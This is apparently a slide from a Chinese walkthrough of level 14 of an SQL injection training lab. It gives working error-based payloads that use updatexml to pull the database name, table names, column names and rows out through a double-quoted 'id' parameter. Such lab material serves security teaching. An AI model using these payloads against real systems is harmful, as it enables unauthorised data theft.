

# 第十四关
另一种传参的报错注入
判断是否存在注入：?id=1 " and 1=1 -- qwe

判断库名： "and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe

判断表名："and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1)-- qwe

判断列名："and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)-- qwe

判断数据："and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)-- qwe